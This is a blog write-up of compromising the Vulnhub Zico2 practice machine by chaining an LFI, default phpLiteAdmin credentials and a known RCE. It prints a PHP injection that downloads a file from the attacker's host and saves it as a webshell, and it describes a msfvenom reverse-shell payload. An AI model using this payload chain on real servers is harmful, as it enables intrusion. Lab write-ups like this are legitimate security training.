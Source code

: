 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. Inside of the DBMS, you can find other database called "test_users" with MD5 hashes of "root" and "zico" users (however, once it was decrypted with online resources such us crackstation.net, these credentials were not valid). 
First of all, I created a PHP payload with msfvenom. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of the field, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability of the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)

